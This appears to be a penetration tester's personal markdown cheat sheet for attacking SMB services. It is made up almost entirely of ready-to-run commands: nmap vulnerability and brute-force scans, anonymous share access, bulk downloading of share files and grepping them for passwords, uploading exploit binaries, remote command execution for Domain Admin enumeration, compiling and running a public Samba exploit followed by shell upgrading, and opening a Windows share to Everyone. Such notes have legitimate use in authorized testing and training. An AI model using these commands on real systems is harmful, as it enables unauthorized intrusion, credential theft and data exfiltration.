 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Quick Wins (require creds)

[[zz._Gaining Shell Access (psexec.py)]]
[[zz._Gaining Shell Access (smbexec.py)]]
[[zz._Gaining Shell Access (wmiexec.py)]]

#### nmap vuln check:
```bash - kali
nmap --script smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse,smb-vuln-webexec.nse -p445 $TARGET -Pn
```

#### SMB Mounting
```bash - kali
sudo apt install cifs-utils
```

```bash - kali
mkdir ./$SHARE
```

```bash - kali
sudo mount -t nfs $TARGET:/$SHARE/
```

```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o user=,password=
```
OR
```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o username=$USER,password=$PASSWORD,domain=$DOMAIN
```

```bash - kali
grep -R password ./$SHARE
```

[[TechLexicon/Penetration Testing/Reference/P3nT3sT/Grep]] for lootz.

```bash - kali
sudo umount ./mount
```

#### SMB Enumeration

==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

Enum4linux-ng:
```bash - kali
cd /opt/ && sudo git clone https://github.com/cddmp/enum4linux-ng && cd -
```

```bash - kali
/opt/enum4linux-ng/enum4linux-ng.py $TARGET -A -C
```

nmap scans:
```bash - kali
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse -p445 $TARGET
```

```bash - kali
nmap --script smb-brute.nse -p445 $TARGET
```

smbmap:
```bash - kali
smbmap -H $TARGET -P 445
```

```bash - kali
smbmap -u null -p "" -H $TARGET -P 445
```

[[Port 139 445 - SMB ~#smbmap.py]]

List share and gain access with smbclient:
```bash - kali
smbclient -L \\\\$TARGET\\ -N -p 445
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

smbclient anonymous login:
```bash - kali
smbclient -L $TARGET -U " "%" "
```

```bash - kali
smbclient \\\\$TARGET\\scripts$ -U " "%" "
```

[[Port 139 445 - SMB ~#smbclient]]
#### smbmap.py
```bash - kali
smbmap -H $TARGET
```

```bash - kali
smbmap -H $TARGET -r 'home'
```

```bash - kali
smbmap -H $TARGET -r 'home\$USER'
```

### smbmap Downloading files:
```bash - kali
smbmap -H $TARGET --download 'home\$USER\file.txt'
```

#### smbmap Uploading files:
```bash - kali
smbmap -H $TARGET --upload exploit.exe 'home\$USER\'
```

```bash - kali
smbmap -H $TARGET -P 445 --upload exploit.so 'Share/exploit.so' 
```

```bash - kali
smbmap -u $USER -p $PASSWORD -d $DOMAIN_NAME -x 'net group "Domain Admins" /domain' -H $TARGET
```

#### smbclient

```bash - kali
smbclient -L \\\\$TARGET -N -p 445
```

Using smbclient without creds:
```bash - kali
smbclient \\\\$TARGET\\share -p 445
```

Using smbclient to list shares (authenticated):
```bash - kali
smbclient -L \\\\$TARGET -U "$USER" -p $PASSWORD
```

Using smbclient with creds:
```bash - kali
smbclient \\\\$TARGET\\spray -U "$USER" -p $PASSWORD
```

#### using smbclient to download all files:

```bash - kali
mkdir SMBLoot && cd SMBLoot
```

Unauthenticated:
```bash - kali
smbclient '\\\\$TARGET\\$SHARE'
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

Authenticated:
```bash - kali
smbclient --user $USER //$TARGET/$SHARE $PASSWORD
```

```bash - kali
mask ""  
```

```bash - kali
recurse ON  
```

```bash - kali
prompt OFF  
```

```bash - kali
mget *
```

```bash - kali
exit
```

```bash - kali
cd ..
```

```bash - kali
find SMBLoot/ -type f
```


==2nd example==
```bash - kali
smbclient //$TARGET/$SHARE
```

```bash - kali
RECURSE ON
```

```bash - kali
PROMPT OFF
```

```bash - kali
mget *
```

#### Low Level Samba Exploit
```bash - kali
searchsploit -m 10
```

```bash - kali
gcc -o exploit-samba 10.c
```

```bash - kali
./exploit-samba -b 0 $TARGET
```

```bash - kali
python -c 'import pty;pty.spawn("/bin/bash")'
```

#### Windows share local folder with everyone

```command prompt - target
net share cshare C:\$SHARE /GRANT:Everyone,FULL
```
  
#### Unsafe nmap script
```bash kali
sudo nmap --script=smb-enum* --script-args=unsafe=1 $TARGET
```

#### Responder - File upload attack
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/
